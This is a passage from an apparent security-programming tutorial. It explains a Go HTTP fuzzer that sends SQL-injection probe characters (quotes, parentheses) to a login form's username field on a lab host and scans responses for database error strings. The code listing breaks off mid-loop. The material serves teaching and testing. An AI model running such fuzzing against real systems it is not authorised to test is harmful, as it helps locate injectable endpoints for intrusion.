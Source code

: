 ```shell
```

The login form sends a POST request to `http://10.0.1.20:8080/WebApplication/login.jsp`. There are two 
form parameters: `username` and `password`. For this example, we’ll limit the fuzzing to the username 
field for brevity. The code itself is fairly compact, consisting of a few loops, some regular expressions, 
and the creation of an HTTP request. It’s shown in [http-fuzz/main.go](http-fuzz/main.go):
```go
func main() {
 ❶ payloads := []string{
        "baseline",
        ")",
        "(",
        "\"",
        "'",
    }  

 ❷ sqlErrors := []string{
        "SQL",
        "MySQL",
        "ORA-",
        "syntax",
    }  

    errRegexes := []*regexp.Regexp{}
    for _, e := range sqlErrors {
     ❸ re := regexp.MustCompile(fmt.Sprintf(".*%s.*", e))
        errRegexes = append(errRegexes, re)
    }  

 ❹ for _, payload := range payloads {
        client := new(http.Client)
    ❺ body := []byte(fmt.Sprintf("username=%s&password=p", payload))
    ❻ req, err := http.NewRequest(
           "POST",
           "http://10.0.1.20:8080/WebApplication/login.jsp",
           bytes.NewReader(body),
        )  
        if err != nil {
            log.Fatalf("[!] Unable to generate request: %s\n", err)
        }  
        req.Header.Add("Content-Type", "application/x-www-form-urlencoded")
        resp, err := client.Do(req)
        if err != nil {
            log.Fatalf("[!] Unable to process response: %s\n", err)
        }  
     ❼ body, err = ioutil.ReadAll(resp.Body)
        if err != nil {
            log.Fatalf("[!] Unable to read response body: %s\n", err)
        }  
        resp.Body.Close()

     ❽ for idx, re := range errRegexes {
         ❾ if re.MatchString(string(body)) {
                fmt.Printf(
                    "[+] SQL Error found ('%s') for payload: %s\n",
                    sqlErrors[idx],
                    payload,
                )
                break
            }  
        }  
```